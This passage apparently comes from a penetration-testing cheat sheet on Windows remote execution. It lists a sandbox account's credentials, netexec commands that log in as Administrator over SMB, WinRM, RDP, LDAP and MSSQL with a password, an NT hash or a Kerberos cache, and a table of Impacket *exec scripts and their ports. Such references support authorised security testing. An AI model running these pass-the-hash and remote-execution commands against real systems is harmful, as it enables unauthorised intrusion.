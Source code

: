 ```powershell
\\windowssandbox
Username: wdagutilityaccount
Password: pw123
```

## netexec

Using [mpgn/netexec](https://github.com/Pennyw0rth/NetExec)

* netexec supports many protocols

    ```powershell
    netexec ldap 192.168.1.100 -u Administrator -H ":31d6cfe0d16ae931b73c59d7e0c089c0" 
    netexec mssql 192.168.1.100 -u Administrator -H ":31d6cfe0d16ae931b73c59d7e0c089c0"
    netexec rdp 192.168.1.100 -u Administrator -H ":31d6cfe0d16ae931b73c59d7e0c089c0" 
    netexec smb 192.168.1.100 -u Administrator -H ":31d6cfe0d16ae931b73c59d7e0c089c0"
    netexec winrm 192.168.1.100 -u Administrator -H ":31d6cfe0d16ae931b73c59d7e0c089c0"
    ```

* netexec works with password, NT hash and Kerberos authentication

    ```powershell
    netexec smb 192.168.1.100 -u Administrator -p "Password123?" # Password
    netexec smb 192.168.1.100 -u Administrator -H ":31d6cfe0d16ae931b73c59d7e0c089c0" # NT Hash
    export KRB5CCNAME=/tmp/kerberos/admin.ccache; netexec smb 192.168.1.100 -u admin --use-kcache # Kerberos
    ```

## Impacket

From [fortra/impacket](https://github.com/fortra/impacket) (:warning: renamed to impacket-xxxxx in Kali)
:warning: `get` / `put` for wmiexec, psexec, smbexec, and dcomexec are changing to `lget` and `lput`.
:warning: French characters might not be correctly displayed on your output, use `-codec ibm850` to fix this.
:warning: By default, Impacket's scripts are stored in the examples folder: `impacket/examples/psexec.py`.

All Impacket's *exec scripts are not equal, they will target services hosted on multiples ports.
The following table summarize the port used by each scripts.

| Method      | Port Used                             | Admin Required |
|-------------|---------------------------------------|----------------|
| psexec.py   | tcp/445                               | Yes            |
| smbexec.py  | tcp/445                               | No             |
| atexec.py   | tcp/445                               | No             |
| dcomexec.py | tcp/135, tcp/445, tcp/49751 (DCOM)    | No             |
| wmiexec.py  | tcp/135, tcp/445, tcp/50911 (Winmgmt) | Yes            |
